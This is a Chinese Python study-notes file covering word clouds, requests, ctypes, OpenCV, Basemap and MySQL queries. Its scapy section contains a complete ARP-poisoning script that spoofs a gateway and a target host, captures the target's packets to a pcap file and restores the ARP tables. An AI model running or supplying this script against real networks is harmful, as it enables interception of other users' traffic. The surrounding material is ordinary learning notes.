 Python
==============

修改pip/conda的安装源
::

 conda config --add channels https://mirrors.tuna.tsinghua.edu.cn/anaconda/pkgs/free/
 conda config --set show_channel_urls yes

 新建pip/pip.ini
 [global]
 timeout = 6000
 index-url = https://pypi.tuna.tsinghua.edu.cn/simple
 trusted-host = pypi.tuna.tsinghua.edu.cn


词云
---------------

需要安装jieba、wordcloud
通过命令行直接生成词云的命令行::
 
 wordcloud_cli --text file_path.txt --imagefile wordcloud.png
 # 可以通过wordcloud_cli 进行更详细的调节,需要对文件分词,自带的分词效果较差
 # --fontfile path 支持中文
 # --mask file
 # --background white


通过jieba对中文分词处理::
 
 import jieba
 import wordcloud
 import matplotlib.pyplot as plt

 words = open(r'words.txt','rb').read().decode('utf-8')
 # print(words)
 cut_words = list(jieba.cut(words))
 cut_str = ' '.join(cut_words)
 print(cut_words)
 make = wordcloud.WordCloud(font_path=r'C:\Windows\Fonts\simkai.ttf')
 s = make.generate(cut_str)
 plt.imshow(s)
 plt.axis('off')
 plt.show()

requests
------------------

发送http请求
::

 url = 'https://www.baidu.com'
 headers = {'user-agent':""}
 proxy = {"http":"89.17.37.218:52957"} # 使用代理
 response = requests.get(url,params={"wd":"中国"},proxies=proxy)
 # response.content 是原始页面的byte类型,没有解码
 # response.text 是requests 解码后的数据,解码方式是推测的,可能出错

 response = request.post(url,data) # post 请求

urllib 
-----------------------

|    urllib 可以导入request(最为常用)、response、parse

>>> proxy = request.ProxyHandler({"http":"192.122.132.1"})
    opener = request.build_opener(proxy)
    opener.open(url)
 
lxml(XPath)
-------------------

::

 //div  任意位置div

 /div   根节点查找

 *      匹配任意节点

 @*     匹配任意属性

 @      匹配某一属性  

 1. //input[@id="str"] 精确匹配
 2. //input[@class,"f"] 模糊匹配

在python中的导入

>>> from lxml import html
html.etree.parse() # 传入文件地址
html.etree.fromstring() # 传入字符串



ctypes
-------------------------
python中使用ctypes模块可以在python中直接调用C/C++。首先要将C/C++编译成动态库（.dll或.so),之后python中调用即可。

在linux的编译命令如下
::

 gcc -shared -fPIC -o code.so code.c

普通方法

c代码
::

	int add(int a, int b)
	{
		int c;
		c = a + b;
		return c;
	}

python代码
::

	import ctypes
	Cfun = ctypes.DLL('code.so')  ##动态链接库所在目录
	Num1 = ctypes.c_int(10)         ##创建第一个输入参数,将参数类型指定为c_int即C语言中的int类型
	Num2 = ctypes.c_int(30)
	Cfun.add.restype=ctypes.c_int   ##将C函数的返回值类型定位c_int即C语言中的int类型,如果不先声明类型在使用非int变量时,返回值会不对
	Sum=Cfun.add(Num1,Num2)
	print(Sum)

使用指针

c代码
::

	void add_point(float* a, float* b, float* c)
	{
		*c = *a + *b;
		*a = 129.7;
	}

python代码
::

	import ctypes
	Cfun = ctypes.DLL('code.so')  ##动态链接库所在目录
	x1 = ctypes.c_float(1.9)
	x2 = ctypes.c_float(10.1)
	x3 = ctypes.c_float(0)
	Cfun.add_point(ctypes.pointer(x1), ctypes.pointer(x2), ctypes.pointer(x3)) ## ctypes.pointer()将参数指定为C中的指针类型
	print(x3.contents.value, x1.contents.value)  ##value代表变量的值

接收返回的指针

c代码
::

	int*  point(int* x)
	{
		int* y=NULL;
		y = x;
		return y;
	}

python代码
::

	x = ctypes.c_int(2560)
	Cfun.point.restype = ctypes.POINTER(ctypes.c_int)  ##声明函数返回值为int*
	y = Cfun.point(ctypes.pointer(x))
	print(y.contents.value)

接收返回的指针

c代码:
::

	void  array(int x[])
	{
	     *x = 100;
	}

python代码
::

	Array = ctypes.c_int * 4;  ##声明一维数组,数组长度为4
	a = Array(0, 1, 2, 3)  ##初始化数组
	Cfun.array(a)
	print(a[0], a[1], a[2], a[3])

声明二维数组
::

	Array = (ctypes.c_int * 4)*5  ##声明二维数组
	a=Array()

scapy
-------------------------
模拟三次握手
::
 
 windows查看端口 netstat
 
 send(),在第三层发送数据包,但没有接收功能
 sendp(),在第二层发送数据包,同样没有接收功能

 sr(),在第三层发送数据包,有接收功能
 sr1(),在第三层发送数据包,有接收功能,但只接收第一个包
 srloop(),在第三层工作,循环发包

 srp()、srp1()、srploop()与sr,sr1,srloop类似,只是工作在第二层
 开始模拟时需要设置防火墙规则,防止操作系统发送RST(flags=4)
 --tcp-flags RST RST:第一个RST是想要检查的指标,第二个RST是要设定的指标
 -d 192.168.1.101:指定目标IP
 -j DROP:拒绝发送某个种类型数据包
 -p tcp:选定某个协议
 -A OUTPUT:新添防火墙规则
 iptables -A OUTPUT -p tcp --tcp-flags RST RST -d 192.168.1.101 -j DROP
 
 flags = 2 为SYN扫描,半开式扫描
 recv=sr1(IP(dst="192.168.1.101")/TCP(dport=8081,sport=7777,flags="S"))
 
 发送ACK(flags = 16),完成三次握手！
 send(IP(dst='192.168.1.101')/TCP(dport=8081,sport=7777,flags=16,seq=recv.ack,ack=recv.seq+1))

 flags为24（ACK = 16,PUSH = 8) 发送数据
 recv1 = sr(IP(dst='192.168.1.101')/TCP(dport=8081,sport=7777,flags=24,seq=recv.ack,ack=recv.seq)/
 "hi", multi=1, timeout=10)
 # seq记录自己发送的字节数，ack记录服务器发送的字节数，每次数据包返回时服务器会自动计算字节数，只需要将服务
 器发过 来的ack数值赋值给seq就可以，ack需要自己计算，如果多次发送数据需要每次对获取 的seq+i(服务器发送的字
 节数),然后令ack 等于相加后的数值；

 flags=17, FIN（1） + ACK（16）,进行连接终结
 recv1=srp1(IP(dst='192.168.1.101')/TCP(dport=8081,sport=7777,seq=ack,ack=seq+1,flags=17))

arp投毒,抓包
::

 from scapy.all import *
 import os
 import sys
 import threading
 import signal
 from scapy.layers.l2 import ARP, Ether

 def restore_target(gateway_ip,gateway_mac,target_ip,target_mac):
    print("restore target >>>>>>>")
    send(ARP(op=2,psrc=gateway_ip,pdst=target_ip,hwdst="ff:ff:ff:ff:ff:ff",hwsrc=gateway_mac),count=5)
    send(ARP(op=2,psrc=target_ip,pdst=gateway_ip,hwdst="ff:ff:ff:ff:ff:ff",hwsrc=target_mac),count=5)
    os.kill(os.getpid(),signal.SIGINT)
 def get_mac(ip_address):
    responses,unanswered = srp(Ether(dst="ff:ff:ff:ff:ff:ff")/ARP(pdst=ip_address),
                               timeout=2,retry=10)
    a = 1
    for s,r in responses:
        print(s)
        print("$"*20)
        print(r)
        return r[Ether].src
 def poison_target(gateway_ip,gateway_mac,target_ip,target_mac):
    print("begin to ARP poison")
    while True:
        try:
            send(ARP(op=2,psrc=gateway_ip,pdst=target_ip,hwdst=target_mac)) # 欺骗主机
            send(ARP(op=2,psrc=target_ip,pdst=gateway_ip,hwdst=gateway_mac)) # 欺骗网关
        except KeyboardInterrupt:
            restore_target(gateway_ip,gateway_mac,target_ip,target_mac)

    # print("stoped poison")
 if __name__ == '__main__':

    target_ip = '192.168.0.150'
    gateway_ip = '192.168.0.1'
    packet_count = 10
    conf.verb = 0
    gateway_mac = get_mac(gateway_ip)
    target_mac = get_mac(target_ip)
    print(gateway_mac,target_mac)
    poison_thread = threading.Thread(target=poison_target,args=(gateway_ip,gateway_mac,
                                                                target_ip,target_mac))
    poison_thread.start()
    try:
        bpf_filter = "ip host %s"%target_ip
        packets_ = sniff(count=packet_count,filter=bpf_filter) # 抓包
        wrpcap("arp.pcap",packets_)
        restore_target(gateway_ip,gateway_mac,target_ip,target_mac) # 恢复原先设置
    except KeyboardInterrupt:
        restore_target(gateway_ip, gateway_mac, target_ip, target_mac) # 恢复原先设置

    poison_thread.join()

opencv
---------------------
opencv 安装

1. pip install opencv-python==3.4.2.16

2. pip install opencv-contrib-python==3.4.2.16

::
 
 # 读取图片
 cv2.imread(img_path)
 # 读取影像
 video = cv2.VideoCapture(0) # 0 读取本地摄像头
 ret,frame = video.read() # frame 是每一帧,ret 是读取成功与否标志
 cv2.waitKey(10) # 每帧的间隔时间为10 0xFF==27(Esc键)
 
 # 基本操作
 b,g,r = cv2.split(img) # 拆分通道
 cv2.merge((b,g,r)) # 合并通道
 img = cv2.copyMakeBorder(img,20,20,10,10,cv2.BORDER_REFLECT) # 边界填充
 img = cv2.resize(img,(0,0),fx=0.5,fy=0.5) # 重新调整大小
 img = cv2.addWeighted(img,0.5,img,0.6,0) # 图像按权重融合

 # 阈值操作
 ret,img = cv2.threshold(img,127,255,cv2.THRESH_BINARY) 
 
 # 图像平滑
 img = cv2.blur(img,(3,3),borderType=cv2.BORDER_REFLECT) # 均值滤波
 img = cv2.boxFilter(img,-1,(3,3),normalize=True) # 方框滤波 不标准化越界后赋值为255
 img = cv2.medianBlur(img,3) # 中值滤波
 img = cv2.GaussianBlur(img,(3,3),1) # 权重处理
 
 # 形态学操作
 img = cv2.erode(img,np.ones((5,5),dtype=np.uint8),iterations=1) # 腐蚀最大值,针对最大值
 img = cv2.dilate(img,np.ones((5,5),dtype=np.uint8),iterations=1) # 膨胀
 img = cv2.morphologyEx(img,cv2.MORPH_OPEN,np.ones((5,5),dtype=np.uint8)) # 先腐蚀再膨胀
 img = cv2.morphologyEx(img,cv2.MORPH_CLOSE,np.ones((5,5),dtype=np.uint8)) # 先膨胀再腐蚀
 img = cv2.morphologyEx(img,cv2.MORPH_GRADIENT,kernel) # 梯度 膨胀-腐蚀
 # 礼帽=原始输入-开运算结果; 黑帽=闭运算-原始输入

 # 梯度
 img = cv2.Sobel(img,-1,dx=1,dy=1,ksize=3) # sober算子
 img = cv2.Scharr(img,cv2.CV_64F,dx=0,dy=1) # 细节更为丰富
 img = cv2.Laplacian(img,-1,ksize=3) # 对噪音敏感

 # 边缘检测
 # canny 1.高斯滤波 2.梯度(sober) 3.非极大值抑制 4.双阈值检测
 img = cv2.Canny(img,100,120) # 双阈值: minvalue 100,maxvalue 120

 # 高斯金字塔
 img = cv2.pyrUp(img) # 上采样
 img = cv2.pyrDown(img) # 下采样

 # 图像轮廓
 img,contours,hierarchy = cv2.findContours(img,cv2.RETR_TREE,cv2.CHAIN_APPROX_SIMPLE)
 res = cv2.drawContours(img,contours,-1,(0,255,0),1) # 绘制轮廓
 area = cv2.contourArea(contours[0]) # 计算轮廓面积
 arcLen = cv2.arcLength(contours[0],True) # 计算周长
 res = cv2.approxPolyDP(contours[0],0.1*cv2.arcLength(contours[0],True),True) # 近似周长(点)
 x, y, w, h = cv2.boundingRect(contours[0]) # 外界矩形
 rec = cv2.rectangle(img,(x,y),(x+w,y+h),(0,255,0)) # 绘制矩形

 # 直方图
 res = cv2.calcHist([img],[0],None,[256],[0,256]) # 计算直方图
 mask[50:150,50:150] = 255 # 制作mask

 # SIFT
 cv2.xfeature2d.SIFT_create() # 构建sift
 kp = sift.detect(gray,None) # 检测
 img = cv2.drawKeypoints(gray,kp,img)
 kp,des = sift.compute(gray,kp) # 128维向量

 # 特征匹配
 bf = cv2.BFMatcher(crossCheck=True) # 蛮力匹配
 bf.match()

 # 背景建模
 # 1. 帧差法
 # 2. 混合高斯模型(GMM)

相机标定原理

相机标定就是根据真实点与成像点之间建立关系求解相机内参、外参、畸变系数的过程；
在标定的过程中需要对四个坐标系进行转换,分别是:真实世界的坐标系、相机坐标系、图像坐标系、像素坐标系；
转变的顺序为是真实世界的坐标系中的点转为相机坐标系中的点转变为图片坐标系转变为像素坐标系中的点；
四个坐标系的关系如下:

 .. image:: 20161210141741307.png 
  :height: 580px
  :width: 820 px
  :scale: 50 %
  :alt: alternate text
  :align: center

1. 真实世界的坐标系转为相机坐标系

- 真实世界的坐标系转换为相机坐标系需要先对三个轴进行旋转,使的真实世界的x、y、z 的三个坐标轴与相机坐标系的三个轴平行,
最后将真实世界的坐标轴平移到与相机坐标系完全重合；

2. 相机坐标系转为图片坐标系

- 在该部分转换需要三角形相似的原理,转换示意图如下:

 .. image:: 20161210142740999.png 
  :height: 500px
  :width: 830 px
  :scale: 50 %
  :alt: alternate text
  :align: center

- 其中f为相机焦距,P点为真实世界的点,但是x、y、z 的值已经转换到相机坐标系中的值了,这样就可以求得图像坐标系中的x、y

3. 图片坐标系转换为像素坐标系

- 转换示意图如下:

 .. image:: 20161210143514044.png 
  :height: 440px
  :width: 750 px
  :scale: 50 %
  :alt: alternate text
  :align: center

- o点为像素原点,即照片的中心位置,现在要根据图像坐标系中的x、y值求得P点在图片的行列号是多少,
u的最大值为图片的宽度（横向总共有多少像素点）,v的最大值为图片的高度（纵向总共有多少像素点）

4. 整体的求解公式如下:

 .. image:: 20161210144703071.png 
  :height: 180px
  :width: 890 px
  :scale: 50 %
  :alt: alternate text
  :align: center

- 其中dx、dy为一个像素格点代表真实世界的长度,fx、fy分别为f/dx、f/dy,u0、v0分别为u/2、v/2,R、T分别为旋转矩阵、平移矩阵

具体的代码实现可参看 https://www.cnblogs.com/Undo-self-blog/p/8448500.html


basemap
------------------
::

 projection
 # Albers Equal Area Projection
 # lat_1 is first standard parallel.
 # lat_2 is second standard parallel.
 # lon_0,lat_0 is central point
 m = Basemap(width=8000000,height=7000000, resolution='l',projection='aea', lat_1=40.,lat_2=60,lon_0=35,lat_0=50)
 m.drawcoastlines() # 海岸线
 m.drawcountries() # 国家界限
 m.drawparallels(np.arange(-80.,81.,20.)) # 纬线
 m.drawmeridians(np.arange(-180.,181.,20.)) # 经线
 m.drawgreatcircle(90,35,100,50,color="r") # 连接线
 m.bluemarble() # draw a NASA Blue Marble image as a map background.卫星背景
 m.shadedrelief() # draw a shaded relief image as a map background,阴影背景
 m.etopo() # 浮雕(背景)
 m.quiver(90,45,1,5,color='g') # 添加矢量箭头

modis download script
-----------------------------------

1. 安装python(https://www.python.org/downloads/)

2. 找到python的安装目录,在cmd下使用cd命令到进入该目录(Scripts),使用dir命令查看当前目录文件。

如果存在pip.exe说明当前位置正确,然后安装所需模块(GDAL文件需要全路径),安装命令如下

::

 pip install GDAL-3.0.1-cp38-cp38-win_amd64.whl
 pip install pymodis

3. 运行下载脚本(down_modis.py为下载脚本,需要给出脚本的本地全路径,本示例仅有文件名)

::

  cd ..
  python down_modis.py

MySQL 语句
-----------------------------

-- 数据的准备
	-- 创建一个数据库
	create database python_test charset=utf8;

	-- 使用一个数据库
	use python_test;

	-- 显示使用的当前数据是哪个?
	select database();

	-- 创建一个数据表
	-- students表
	
	::

	    create table students(
	    id int unsigned primary key auto_increment not null,
	    name varchar(20) default '',
	    age tinyint unsigned default 0,
	    height decimal(5,2),
	    gender enum('男','女','中性','保密') default '保密',
	    cls_id int unsigned default 0,
	    is_delete bit default 0
	    );

	
	-- classes表
	
	::

	    create table classes (
	    id int unsigned auto_increment primary key not null,
	    name varchar(30) not null
	    );


-- 查询
	-- 查询所有字段
	-- select * from 表名;
	
	::

	 select * from students;
	 select * from classes;
	 select id, name from classes;

	-- 查询指定字段
	-- select 列1,列2,... from 表名;
	
	::

	 select name, age from students;

	-- 使用 as 给字段起别名
	-- select 字段 as 名字.... from 表名;
	
	::

	 select name as 姓名, age as 年龄 from students;

	-- select 表名.字段 .... from 表名;
	
	::

	 select students.name, students.age from students;

	-- 可以通过 as 给表起别名
	
	-- select 别名.字段 .... from 表名 as 别名;
	
	::

	 select students.name, students.age from students;
	 select s.name, s.age from students as s;

	-- 失败的select students.name, students.age from students as s;
	
	-- 消除重复行
	
	-- distinct 字段
	
    ::

     select distinct gender from students;



-- 条件查询

	-- 比较运算符
		-- select .... from 表名 where .....
		
		-- >
		
		-- 查询大于18岁的信息
		
		::

		 select * from students where age>18;
		 select id,name,gender from students where age>18;

		-- <
		
		-- 查询小于18岁的信息
		
		::

		 select * from students where age<18;

		-- >=
		
		-- <=
		
		-- 查询小于或者等于18岁的信息
		
		-- =
		
		-- 查询年龄为18岁的所有学生的名字
		
		::

		 select * from students where age=18;

		-- != 或者 <>


	-- 逻辑运算符
		-- and
		
		-- 18到28之间的所以学生信息
		::

		 select * from students where age>18 and age<28;

		-- 失败select * from students where age>18 and <28;


		-- 18岁以上的女性
		
		::
		
		 select * from students where age>18 and gender="女";
		 select * from students where age>18 and gender=2;


		-- or
		
		-- 18以上或者身高查过180(包含)以上
		
		::

		 select * from students where age>18 or height>=180;


		-- not
		
		-- 不在 18岁以上的女性 这个范围内的信息
		
		-- select * from students where not age>18 and gender=2;
		
		::

		 select * from students where not (age>18 and gender=2);

		-- 年龄不是小于或者等于18 并且是女性
		
		::

		 select * from students where (not age<=18) and gender=2;


	-- 模糊查询
		-- like 
		
		-- % 替换1个或者多个
		
		-- _ 替换1个
		
		-- 查询姓名中 以 "小" 开始的名字
		
		::

		 select name from students where name="小";
		 select name from students where name like "小%";

		-- 查询姓名中 有 "小" 所有的名字
		
		::

		 select name from students where name like "%小%";

		-- 查询有2个字的名字
		
		::

		 select name from students where name like "__";

		-- 查询有3个字的名字
		
		::

		 select name from students where name like "__";

		-- 查询至少有2个字的名字
		
		::

		 select name from students where name like "__%";


		-- rlike 正则
		
		-- 查询以 周开始的姓名
		
		::

		 select name from students where name rlike "^周.*";

		-- 查询以 周开始、伦结尾的姓名
		
		::

		 select name from students where name rlike "^周.*伦$";


	-- 范围查询
		-- in (1, 3, 8)表示在一个非连续的范围内
		
		-- 查询 年龄为18、34的姓名
		
		::

		 select name,age from students where age=18 or age=34;
		 select name,age from students where age=18 or age=34 or age=12;
		 select name,age from students where age in (12, 18, 34);


		
		-- not in 不非连续的范围之内
		
		-- 年龄不是 18、34岁之间的信息
		
		::

		 select name,age from students where age not in (12, 18, 34);


		-- between ... and ...表示在一个连续的范围内
		
		-- 查询 年龄在18到34之间的的信息
		
		::

		 select name, age from students where age between 18 and 34;


		-- not between ... and ...表示不在一个连续的范围内
		
		-- 查询 年龄不在在18到34之间的的信息
		
		::

		 select * from students where age not between 18 and 34;
		 select * from students where not age between 18 and 34;

		-- 失败的select * from students where age not (between 18 and 34);


	-- 空判断
		-- 判空is null
		
		-- 查询身高为空的信息
		
		::

		 select * from students where height is null;
		 select * from students where height is NULL;
		 select * from students where height is Null;

		-- 判非空is not null
		
		::

		 select * from students where height is not null;


-- 排序
	-- order by 字段
	
	-- asc从小到大排列,即升序
	
	-- desc从大到小排序,即降序

	-- 查询年龄在18到34岁之间的男性,按照年龄从小到到排序

	::

	 select * from students where (age between 18 and 34) and gender=1;
	 select * from students where (age between 18 and 34) and gender=1 order by age;
	 select * from students where (age between 18 and 34) and gender=1 order by age asc;


	-- 查询年龄在18到34岁之间的女性,身高从高到矮排序

	::

	 select * from students where (age between 18 and 34) and gender=2 order by height desc;


	-- order by 多个字段
	
	-- 查询年龄在18到34岁之间的女性,身高从高到矮排序, 如果身高相同的情况下按照年龄从小到大排序

	::

	 select * from students where (age between 18 and 34) and gender=2 order by height desc,id desc;


	-- 查询年龄在18到34岁之间的女性,身高从高到矮排序, 如果身高相同的情况下按照年龄从小到大排序,
	
	-- 如果年龄也相同那么按照id从大到小排序

	::

	 select * from students where (age between 18 and 34) and gender=2 order by height desc,age asc,id desc;


	-- 按照年龄从小到大、身高从高到矮的排序

	::

	 select * from students order by age asc, height desc;


-- 聚合函数
	-- 总数
	
	-- count
	
	-- 查询男性有多少人,女性有多少人

	::

	 select * from students where gender=1;
	 select count(*) from students where gender=1;
	 select count(*) as 男性人数 from students where gender=1;
	 select count(*) as 女性人数 from students where gender=2;


	-- 最大值
	
	-- max
	
	-- 查询最大的年龄

	::

	 select age from students;
	 select max(age) from students;

	-- 查询女性的最高 身高

	::

	 select max(height) from students where gender=2;

	-- 最小值
	-- min


	-- 求和
	-- sum
	
	-- 计算所有人的年龄总和

	::

	 select sum(age) from students;


	-- 平均值
	-- avg
	
	-- 计算平均年龄

	::

	 select avg(age) from students;


	-- 计算平均年龄 sum(age)/count(*)

	::

	 select sum(age)/count(*) from students;


	-- 四舍五入 round(123.23 , 1) 保留1位小数
	
	-- 计算所有人的平均年龄,保留2位小数

	::

	 select round(sum(age)/count(*), 2) from students;
	 select round(sum(age)/count(*), 3) from students;

	-- 计算男性的平均身高 保留2位小数

	::

	 select round(avg(height), 2) from students where gender=1;

	-- select name, round(avg(height), 2) from students where gender=1;

-- 分组

	-- group by
	-- 按照性别分组,查询所有的性别

	::

	 select name from students group by gender;
	 select * from students group by gender;
	 select gender from students group by gender;

	-- 失败select * from students group by gender;

	-- 计算每种性别中的人数

	::

	 select gender,count(*) from students group by gender;


	-- 计算男性的人数

	::

	 select gender,count(*) from students where gender=1 group by gender;


	-- group_concat(...)
	
	-- 查询同种性别中的姓名

 	::

 	 select gender,group_concat(name) from students where gender=1 group by gender;
 	 select gender,group_concat(name, age, id) from students where gender=1 group by gender;
 	 select gender,group_concat(name, "_", age, " ", id) from students where gender=1 group by gender;

	-- having
	
	-- 查询平均年龄超过30岁的性别,以及姓名 having avg(age) > 30

	::

	 select gender, group_concat(name),avg(age) from students group by gender having avg(age)>30;
	
	-- 查询每种性别中的人数多于2个的信息
	
	::

	 select gender, group_concat(name) from students group by gender having count(*)>2;



-- 分页
	-- limit start, count

	-- 限制查询出来的数据个数

	::

	 select * from students where gender=1 limit 2;

	-- 查询前5个数据

	::

	 select * from students limit 0, 5;

	-- 查询id6-10（包含）的书序

	::

	 select * from students limit 5, 5;


	-- 每页显示2个,第1个页面

	::

	 select * from students limit 0,2;

	-- 每页显示2个,第2个页面

	::

	 select * from students limit 2,2;

	-- 每页显示2个,第3个页面

	::

	 select * from students limit 4,2;

	-- 每页显示2个,第4个页面

	::

	 select * from students limit 6,2; -- -----> limit (第N页-1)*每个的个数, 每页的个数;

	-- 每页显示2个,显示第6页的信息, 按照年龄从小到大排序

	::

	 select * from students order by age asc limit 10,2;

	 select * from students where gender=2 order by height desc limit 0,2;



-- 连接查询
	-- inner join ... on

	-- select ... from 表A inner join 表B;

	::

	 select * from students inner join classes;

	-- 查询 有能够对应班级的学生以及班级信息

	::

	 select * from students inner join classes on students.cls_id=classes.id;

	-- 按照要求显示姓名、班级

	::

	 select students.*, classes.name from students inner join classes on students.cls_id=classes.id;
	 select students.name, classes.name from students inner join classes on students.cls_id=classes.id;

	-- 给数据表起名字

	::

	 select s.name, c.name from students as s inner join classes as c on s.cls_id=c.id;

	-- 查询 有能够对应班级的学生以及班级信息,显示学生的所有信息,只显示班级名称

	::

	 select s.*, c.name from students as s inner join classes as c on s.cls_id=c.id;

	-- 在以上的查询中,将班级姓名显示在第1列

	::

	 select c.name, s.* from students as s inner join classes as c on s.cls_id=c.id;

	-- 查询 有能够对应班级的学生以及班级信息, 按照班级进行排序
	
	-- select c.xxx s.xxx from student as s inner join clssses as c on .... order by ....;

	::

	 select c.name, s.* from students as s inner join classes as c on s.cls_id=c.id order by c.name;

	-- 当时同一个班级的时候,按照学生的id进行从小到大排序

	::

	 select c.name, s.* from students as s inner join classes as c on s.cls_id=c.id order by c.name,s.id;

	-- left join
	-- 查询每位学生对应的班级信息

	::

	 select * from students as s left join classes as c on s.cls_id=c.id;

	-- 查询没有对应班级信息的学生

	::

	 select * from students as s left join classes as c on s.cls_id=c.id having c.id is null;
	 select * from students as s left join classes as c on s.cls_id=c.id where c.id is null;

	-- right join   on
	-- 将数据表名字互换位置,用left join完成

-- 自关联

	-- 查询所有省份
	select * from areas where pid is null;

	-- 查询出山东省有哪些市
	
	::

	 select * from areas as province inner join areas as city on city.pid=province.aid having province.atitle="山东省";
	 select province.atitle, city.atitle from areas as province inner join areas as city on city.pid=province.aid having province.atitle="山东省";

	-- 查询出青岛市有哪些县城

	::

	 select province.atitle, city.atitle from areas as province inner join areas as city on city.pid=province.aid having province.atitle="青岛市";
	 select * from areas where pid=(select aid from areas where atitle="青岛市")


-- 子查询
	-- 标量子查询
	-- 查询出高于平均身高的信息

	-- 查询最高的男生信息

	::

	 select * from students where height = 188;
	 sselect * from students where height = (select max(height) from students);

	-- 列级子查询
	-- 查询学生的班级号能够对应的学生信息
	-- select * from students where cls_id in (select id from classes);

















